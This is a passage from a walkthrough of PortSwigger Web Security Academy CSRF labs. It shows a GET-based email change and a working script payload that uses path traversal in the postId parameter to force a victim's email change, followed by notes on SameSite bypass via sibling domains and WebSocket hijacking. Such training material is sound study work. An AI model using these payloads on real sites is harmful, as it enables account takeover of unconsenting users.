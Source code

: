 ```
GET /my-account/change-email?email=bar%40foo.com&submit=1 HTTP/2
```

Send it and got to `/my-account` page via browser to make sure your email has been changed. This confirms that the endpoint we are using allows us to change email using a `GET` request. All we have to do now is craft an HTML code block, that will leverage `postId` parameter to send a `GET` request that will perform this action.

```
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=10/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

Paste it in the exploit server form's "Body" section. Click "Store". Click "Deliver exploit to victim" to solve the lab.

> NOTE: Check out [walkthrough](csrf_lab07_zaproxy.md) of this lab in OWASP Zed Attack Proxy

## Bypassing SameSite restrictions via vulnerable sibling domains

Whether you're assessing another site’s security or protecting your own, remember that a cross-origin request can still be considered same-site. This distinction is critical when evaluating potential risks.

Be sure to review the entire attack surface, especially related domains under the same site. Vulnerabilities like XSS that allow arbitrary secondary requests can completely undermine site-based defenses and leave all domains exposed to cross-site attacks.

Also, keep in mind that beyond traditional CSRF, if the target site uses WebSockets, it might be susceptible to Cross-Site WebSocket Hijacking (CSWSH). This is essentially a CSRF-style attack targeting the WebSocket handshake. For a deeper dive, check out the section on WebSocket vulnerabilities.

### Lab: SameSite Strict bypass via sibling domain

In Burp's browser go to the "Live Chat" and send a few messages. Go to __Proxy__ > __HTTP History__ and find the `GET /chat` request with `Upgrade: websocket` header in it. Notice that it doesn't contain any unpredictable tokens, which suggests it might be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions. 

In the browser, refresh the live chat page and go to __Proxy__ > __WebSockets History__ tab. Notice, that when you refresh the page, the browser sends a `READY` message to the server, which causes the server to respond with the entire chat history:

```
{"user":"You","content":"Test"}
```
```
{"user":"Hal Pline","content":"I&apos;ll look that up when my nail polish has dried."}
```
```
{"user":"You","content":"Another test"}
```
```
{"user":"Hal Pline","content":"Ask your mom."}
```
```
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```
